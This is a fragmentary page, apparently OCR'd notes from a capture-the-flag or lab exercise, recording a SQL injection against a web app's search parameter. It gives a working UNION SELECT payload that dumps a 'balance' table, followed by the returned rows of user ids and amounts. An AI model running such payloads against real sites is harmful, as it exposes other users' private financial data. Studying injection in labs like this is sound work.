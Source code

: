    <tr>
        <td>comment</td>
        <td>2</td>
        </tr>

nothing interesting in comments

balance:
id, userid, amount


term=1' union all select userId, amount, id from balance; -- t
		
		<tr>
		    <td>2</td>
		    <td>35</td>
		 </tr>
		
		<tr>
		    <td>3</td>
		    <td>990</td>
		 </tr>
		
		<tr>
		    <td>4</td>
		    <td>2048</td>
		 </tr>
		
		<tr>
		    <td>5</td>
		    <td>1000</td>
		 </tr>
		
		<tr>
		    <td>6</td>
		    <td>1000</td>
		 </tr>
		
		<tr>
		    <td>7</td>
		    <td>1000</td>
		 </tr>
		
		<tr>
		    <td>8</td>
		    <td>1000</td>
		 </tr>
		
		<tr>
		    <td>9</td>
		    <td>1000</td>
		 </tr>
		
		<tr>
		    <td>5</td>
		    <td>1000</td>
		 </tr>
		